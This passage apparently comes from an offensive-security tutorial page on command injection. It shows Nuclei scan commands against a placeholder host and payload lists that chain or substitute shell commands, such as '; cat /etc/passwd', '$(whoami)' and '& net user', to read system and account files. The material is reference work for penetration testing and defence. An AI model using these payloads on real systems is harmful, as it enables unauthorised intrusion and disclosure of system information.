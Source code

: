 #### Using Nuclei

To learn how to use Nuclei in detail, you can go to our related tactic page by [click here](https://hackviser.com/tactics/tools/nuclei).

```bash
# Run command injection templates
nuclei -u http://target.com -t cmd-injection/

# Run with custom templates
nuclei -u http://target.com -t custom-cmd.yaml

# Severity based scanning
nuclei -u http://target.com -t cmd-injection/ -severity critical,high
```

## Attack Vectors

### Direct Command Execution

Basic command injection techniques that directly execute commands:

```bash
# Linux commands
; cat /etc/passwd
; ls -la /
; id
; pwd

# Windows commands
& dir C:\
& type C:\Windows\System32\drivers\etc\hosts
& whoami
& net user
```

### Command Substitution

Using command substitution to execute commands and return output:

```bash
# Backtick syntax
`id`
`whoami`
`cat /etc/passwd`

# Dollar syntax
$(id)
$(whoami)
$(cat /etc/passwd)

# Nested execution
$(echo `whoami`)
`echo $(id)`
```
